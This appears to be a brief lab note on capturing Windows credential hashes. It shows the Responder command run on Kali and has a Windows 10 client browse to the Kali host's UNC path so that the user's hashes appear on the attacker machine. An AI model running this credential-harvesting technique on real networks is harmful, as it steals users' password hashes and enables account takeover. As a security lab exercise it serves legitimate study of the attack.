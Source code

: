On Kali:

```
responder -I eth0 -dwv
```

On Windows 10 Client:

- Browse to file explorer
- type `\\<kali_ip>`

On Kali:

- Observe the hashes for the user
